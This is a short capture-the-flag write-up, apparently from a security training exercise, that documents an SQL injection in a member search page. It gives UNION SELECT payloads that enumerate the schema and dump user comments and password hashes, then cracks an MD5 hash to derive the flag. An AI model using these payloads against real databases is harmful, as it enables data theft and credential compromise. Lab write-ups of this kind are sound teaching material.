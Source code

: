 On: ```/?page=member```

### Flaw
The search field is vulnerable to SQLi.

To get all tables with schema: ```1 UNION SELECT TABLE_NAME, TABLE_SCHEMA FROM information_schema.tables```

To get all tables with columns: ```1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM information_schema.columns```

List users with commentaires: ```1 UNION SELECT user_id, Commentaire FROM users```

```Commentaire``` field from user 5 says: ```Decrypt this password -> then lower all the char. Sh256 on it and it's good !```

This vulnerability can be exploited to access/modify/remove data from the database. You could even get admin privileged credentials if they are not encrypted.

### Flag
- Get the countersign for user 5: ```1 UNION SELECT user_id, countersign FROM users```
- ```5ff9d0165b4f92b14994e5c685cdce28``` is the md5 for ```FortyTwo```
- Lowercase it: ```fortytwo```
- Sha256 on it to get the flag
